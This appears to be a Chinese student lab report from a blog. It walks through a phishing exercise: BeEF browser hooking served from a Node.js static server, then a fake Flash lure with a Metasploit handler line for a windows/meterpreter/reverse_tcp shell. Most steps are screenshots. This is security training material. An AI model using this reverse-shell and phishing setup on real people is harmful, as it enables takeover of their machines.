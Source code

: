 ```yaml
---
title: 网络安全实训1——网络钓鱼攻击
tags:
  - 网络安全实训
  - 网络钓鱼攻击
categories:
  - 网络安全
  - 实训
  - 实验报告
abbrlink: 1536eb66
date: 2024-07-11 08:14:24
---
```


# 网络钓鱼攻击

> 可能需要的：[kali Linux 切换镜像源](https://blog.w1ndys.top/posts/3073af94)

## 安装并启动

![image-20240711083230622](../images/zuolao/1/image-20240711083230622.png)

## 利用 BeEF 进行网页钓鱼攻击

![image-20240711084432017](../images/zuolao/1/image-20240711084432017.png)

## 利用 nodejs 开启静态服务

> 补充利用 nodejs 开启静态服务
>
> ```bash
> sudo apt update
> sudo apt install nodejs npm
> ```
>
> 安装完成后进入你的静态文件所在目录
>
> 开启命令行
>
> ```bash
> http-server
> ```

![image-20240711084857787](../images/zuolao/1/image-20240711084857787.png)

![image-20240711085531378](../images/zuolao/1/image-20240711085531378.png)

## 成功上线

![image-20240711085547978](../images/zuolao/1/image-20240711085547978.png)

## 发送警告命令

![image-20240711085907974](../images/zuolao/1/image-20240711085907974.png)

## 通过 flash 钓鱼获取目标控制权

```bash
msf6 > handler -H 127.0.0.1 -P 4444 -p windows/meterpreter/reverse_tcp
```

![image-20240711094156735](../images/zuolao/1/image-20240711094156735.png)

![image-20240711094705116](../images/zuolao/1/image-20240711094705116.png)

![image-20240711095518328](../images/zuolao/1/image-20240711095518328.png)

![image-20240711095843697](../images/zuolao/1/image-20240711095843697.png)

![image-20240711095854111](../images/zuolao/1/image-20240711095854111.png)

![image-20240711101710871](../images/zuolao/1/image-20240711101710871.png)
